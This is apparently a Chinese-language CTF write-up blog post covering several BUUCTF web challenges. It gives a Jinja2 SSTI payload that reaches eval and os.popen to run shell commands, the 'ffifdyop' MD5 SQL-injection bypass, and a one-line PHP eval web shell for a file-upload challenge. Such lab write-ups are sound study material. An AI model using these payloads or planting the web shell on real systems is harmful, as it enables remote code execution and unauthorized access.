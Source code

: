 # buu摸鱼日记（5）

## [BJDCTF 2nd]fake google

这题大威天龙，大胆妖孽，我一眼就看出他是SSTI

```
7*7}}7*'7'}}
```

可以判断他是flask框架

随手测试一下，发现甚至没有过滤

推断一下，是python3

拿burp爆破一下subclasses ，就可以得到要用的类

```
qaq?name=().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__.__builtins__['eval']("__import__('os').popen('find / -name \"flag*\"').read()")}}
```

于是读取目录，find命令查找flag 发现根目录里就有flag

然后cat flag 秒杀

这题不怎么难

## [BJDCTF2020]Easy MD5

说实话，题目不难，就是想不到

文件头里有个Hint（根本没看到）

select * from 'admin' where password=md5($pass,true)

关键是md5($pass,true)要返回一个'' or 1这样的东西

可以写个php来爆破，也可以网上找个Payload

**ffifdyop** 会形成'or'6<乱七八糟的值> 构成万能密码sql注入

后面一个是md5零值绕过 一个是数组绕过 都很简单，就不写了

## [ACTF2020 新生赛]Upload

简单的传马（我居然把码写错了）

写一下重新记一下

```php
<?php eval(@$_POST['a']);?>
```

## [RoarCTF 2019]Easy Java

完全没学过java,所以原理并不很清楚，大致复现了一下（迷迷糊糊）

一个另类的文件包含
